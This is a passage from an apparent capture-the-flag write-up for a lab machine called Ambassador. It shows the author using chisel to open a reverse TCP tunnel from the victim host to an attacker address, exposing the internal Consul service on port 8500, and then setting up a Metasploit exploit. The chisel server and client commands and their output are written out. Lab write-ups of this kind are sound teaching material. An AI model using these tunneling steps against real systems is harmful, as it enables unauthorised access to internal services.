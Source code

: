

But we can’t use that, cuz UI on victim machine seems to be disabled:

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

So let’s set up a TCP tunneling from Ambassador machine to ours to exploit the vulnerability.

We will use a `chisel`.



1. On the local machine:

```bash
~/tools> ./chisel server -p 8080 --reverse
2022/10/24 22:58:49 server: Reverse tunnelling enabled
2022/10/24 22:58:49 server: Fingerprint ``tx4Ngv/UtweTvoIMDAuUoDe7G6BoF9m88xU+//DNXSM=
2022/10/24 22:58:49 server: Listening on http://0.0.0.0:8080
```

2. On the victim machine:

```
developer@ambassador:~/.tmp$ ./chisel client 10.10.16.45:8080 R:8500:127.0.0.1:8500
2022/10/24 19:05:36 client: Connecting to ws://10.10.16.45:8080
2022/10/24 19:05:38 client: Connected (Latency 130.006367ms)
```



Great, now we can access Consul at 127.0.0.1:8500, so let’s set the parameters for the exploit in metasploit:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
